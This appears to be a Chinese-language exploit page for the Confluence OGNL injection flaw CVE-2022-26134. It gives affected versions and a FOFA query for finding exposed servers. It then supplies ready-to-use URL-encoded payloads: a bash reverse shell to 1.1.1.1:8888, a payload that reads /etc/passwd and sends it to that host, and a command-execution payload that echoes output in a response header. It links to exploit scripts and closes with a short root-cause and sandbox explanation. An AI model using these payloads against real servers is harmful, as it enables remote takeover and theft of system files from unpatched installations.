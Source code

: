 # Confluence OGNL表达式注入命令执行漏洞（CVE-2022-26134）

## 利用条件：
- Confluence Server and Data Center >= 1.3.0、< 7.4.17、 < 7.13.7、 < 7.14.3、< 7.15.2、< 7.16.4、< 7.17.4、< 7.18.1

## 资产收集：
  fofa:`app="ATLASSIAN-Confluence"`

## POC
- 反弹shell
```shell
/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/1.1.1.1/8888%200%3E%261%27%29.start%28%29%22%29%7D/
```
![](img/shellPOC.png)
[利用脚本](file/ConfluenceRCE_nc.py)
- 读取文件(/etc/passwd)
```shell
/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22var%20data%20%3D%20new%20java.lang.String%28java.nio.file.Files.readAllBytes%28java.nio.file.Paths.get%28%27/etc/passwd%27%29%29%29%3Bvar%20sock%20%3D%20new%20java.net.Socket%28%271.1.1.1%27%2C%208888%29%3B%20var%20output%20%3D%20new%20java.io.BufferedWriter%28new%20java.io.OutputStreamWriter%28sock.getOutputStream%28%29%29%29%3B%20output.write%28data%29%3B%20output.flush%28%29%3B%20sock.close%28%29%3B%22%29%7D/
```
![](img/readfilePOC.png)
- v7.15版本以下Response回显执行结果
```shell
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```
![](img/responsePOC.png)
[利用脚本](file/ConfluenceRCE_Response.py)

## 漏洞原因
Confluence 基于 Struts 架构，url请求访问，经过一系列 `Filter` 处理后，将进入Servlet 的分发器 `ConfluenceServletDispatcher`  
1. 调用 `ConfluenceServletDispatcher`的`serviceAction` 函数.
2. 调用 `DefaultActionProxy` 的 `execute` 函数.
3. Struts Interceptor 拦截器对象对请求进行处理,迭代循环调用`DefaultActionInvocation#invoke`
4. 调用 `ActionChainResult#execute`
5. 调用 `translateVariables` 函数，传入参数 `namespace`，函数功能为 `OGNL` 表达式解析⚠️
6. `namespace` 取值为请求 `servletPath` 最后一个 `/` 之前的部分。⚠️
7. 修改URL成功触发 OGNL 表达式注入。⚠️

## 沙箱绕过
v7.15 系列开始，Confluence 在 OGNL 表达式解析时加入了沙箱设置，`isSafeExpression`函数对参数进行检查。
`java.lang.Runtime.getRuntime().exec()`函数在`unsafePropertyNames`黑名单里，所以v7.15系列以后无法使用exec()方法的poc

参考链接：https://unsafe.sh/go-113877.html  
